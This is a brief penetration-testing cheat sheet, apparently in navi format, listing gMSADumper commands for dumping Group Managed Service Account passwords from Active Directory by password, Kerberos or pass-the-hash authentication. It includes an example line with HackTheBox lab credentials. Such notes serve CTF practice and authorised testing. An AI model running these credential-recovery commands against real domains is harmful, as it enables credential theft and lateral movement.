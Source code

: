 # gmsadumper

% Active directory, password, ReadGMSAPassword, Group managed service accounts 
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  

## get passwords

https://github.com/micahvandeusen/gMSADumper
Example: gMSADumper.py -u tiffany.molina -p NewIntelligenceCorpUser9876 -l 10.10.10.248  -d intelligence.htb

```
gmsadumper -u <user> -p <password> -l <dc> -d <domain> 
```

## get passwords (kerberos auth)

https://github.com/micahvandeusen/gMSADumper

```
gmsadumper -k -l <dc> -d <domain> 
```

## get passwords (PtH auth)

https://github.com/micahvandeusen/gMSADumper

```
gmsadumper -u <user> -p <hash> -l <dc> -d <domain> 
```


